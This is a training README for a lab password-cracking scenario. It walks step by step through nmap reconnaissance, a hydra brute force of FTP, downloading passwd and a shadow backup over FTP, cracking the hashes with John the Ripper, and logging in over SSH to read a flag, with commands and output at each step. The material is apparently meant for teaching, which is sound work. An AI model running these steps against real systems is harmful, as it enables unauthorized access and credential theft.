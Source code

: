 # Password Cracking Scenario
The aim of this scenario is to familiarize participants with common
security issues in operating systems by performing offensive tasks
such as reconnaissance and password cracking. Trainees will be able to
obtain insecure user credentials through brute-force attacks,
eventually getting SSH access to a victim system. 

The scenario simulates an company internal network and is composed of:

+ A previously compromised Linux machine (A), with the required attack
  tools.
+ A victim workstation (V) to use as target of the attack.


The user will use two common brute force tools:
+ [John the Ripper](http://www.openwall.com/john)
+ [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra)

## Scenario objective:

Get SSH access to the victim and obtain the file `flag.txt` located in
the homedir of the user used to connect to the machine.

## Scenario resolution
The necessary steps to solve the scenario are as follows:

1. **Reconnaissance:** The first step is to do basic reconnaissance to
   discover services provided by the victim:
   ```console
   trainee01@attacker$ nmap 10.0.1.5
   Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-28 13:43 UTC
   Nmap scan report for ip-10-0-1-5.ec2.internal (10.0.1.5)
   Host is up (0.0019s latency).
   Not shown: 998 closed ports
   PORT   STATE SERVICE
   21/tcp open  ftp
   22/tcp open  ssh

   Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
   ```
2. **Compile a list of possible usernames:** Using the information
   obtained from the company web site, found in `employees.html`,
   compile a list of possible usernames. The first user (crackable
   with `hydra`) is among the employees without a published email
   address, so trainees will have to fill out this information for all
   users, making an educated guess as to the username assignment
   policy.

3. **Find the first user (FTP):** Port-scanning shows that the victim
   offers the FTP service. Perform a brute-force attack with `hydra`,
   using the generated username list and options `-e nsr` to try
   passwords equal to the username, the reverse, and empty:
   ```console
   trainee01@attacker$ hydra -L userlist -ensr ftp://10.0.1.5
   [...]
   [DATA] max 16 tasks per 1 server, overall 16 tasks, 696 login tries (l:232/p:3), ~44 tries per task
   [DATA] attacking ftp://10.0.1.5:21/
	   [21][ftp] host: 10.0.1.5  login: aarevalo   password: aarevalo
   [...]
   1 of 1 target successfully completed, 1 valid password found
   ```

   Since this user has no shell, it can only be used to connect to the
   FTP service. Through the FTP service one can download the
   `/etc/passwd` file, since the service is not isolated correctly (no
   chroot), and a backup of the shadow file `shadow.bak`:
   ```console
   trainee01@attacker$ ssh aarevalo@10.0.1.5
   aarevalo@10.0.1.5's password: 
   Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-1012-aws x86_64)
   [...]
   This account is currently not available.
   Connection to 10.0.1.5 closed.
  
   trainee01@attacker$ ftp ftp://aarevalo:aarevalo@10.0.1.5
   Connected to 10.0.1.5.
   220 (vsFTPd 3.0.5)
   331 Please specify the password.
   230 Login successful.
   Remote system type is UNIX.
   Using binary mode to transfer files.
   200 Switching to Binary mode.
   ftp> ls
   229 Entering Extended Passive Mode (|||54914|)
   150 Here comes the directory listing.
   -rw-r--r--    1 1001     1001         1721 Oct 31 20:56 shadow.bak
   226 Directory send OK.
   ftp> get shadow.bak
   local: shadow.bak remote: shadow.bak
   229 Entering Extended Passive Mode (|||29207|)
   150 Opening BINARY mode data connection for shadow.bak (2305 bytes).
   100% |**************************|  1721       27.47 MiB/s    00:00 ETA
   226 Transfer complete.
   1721 bytes received in 00:00 (2.47 MiB/s)
   ftp> cd /etc
   250 Directory successfully changed.
   ftp> get passwd
   local: passwd remote: passwd
   229 Entering Extended Passive Mode (|||19306|)
   150 Opening BINARY mode data connection for passwd (2307 bytes).
   100% |**************************|  2307       27.50 MiB/s    00:00 ETA
   226 Transfer complete.
   2307 bytes received in 00:00 (1.29 MiB/s)
   ftp> exit
   221 Goodbye.
   ```
    
4. **Crack the second user:** Using the `unshadow` command,
   combine the information from the passwd and shadow files:
   ```console
   trainee01@attacker$ unshadow passwd shadow.bak > tocrack
   trainee01@attacker$ cat tocrack
   ...
   daguirre:$6$rounds=656000$bimfuxpo$RptBix...:1004:1004:Diego Aguirre:/home/daguirre:/bin/bash
   aarevalo:$6$rounds=656000$bvvdpknf$AA1j2y4...:1005:1005:Andres Arevalo:/home/aarevalo:/usr/sbin/nologin
   ```

   Using the unshadowed file, crack the remaining password with john:
   ```console
   trainee01@attacker$ john --single tocrack
   Created directory: /home/trainee01/.john
   Loaded 2 password hashes with 2 different salts [...]
   aarevalo         (aarevalo)
   aguirrediego!    (daguirre)
   ```

   John immediately finds the FTP user password *aarevalo* (that is the
   same as the username), and a few seconds later, *daguirre*'s that
   is based on their gecos information. This user has SSH access to
   the victim. The flag can be found in their homedir:
   ```console
   trainee01@attacker$ ssh daguirre@10.0.1.5
   daguirre@10.0.1.5's password: 
   Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-1012-aws x86_64)
   [...]
   daguirre@victim-1$ cat flag.txt
   01i=^k{+`l3&8as$4zc2)d?[@-~ge7m1
   ```













